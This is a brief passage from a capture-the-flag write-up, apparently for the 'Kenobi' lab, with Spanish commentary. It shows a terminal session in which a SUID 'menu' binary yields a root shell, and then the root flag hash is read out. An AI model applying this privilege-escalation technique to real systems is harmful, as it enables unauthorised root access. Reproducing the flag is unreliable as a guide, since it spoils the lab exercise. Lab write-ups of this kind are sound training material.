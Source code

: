 ```

```

### What is the root flag (/root/root.txt)?


#### Ahora invocamos al menu para tener el root

```
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cd /root
# ls -a
.  ..  .bash_history  .bashrc  .cache  .profile  root.txt  .viminfo
# cat root.txt  
177b3cd8562289f37382721c28381f02
# 
```
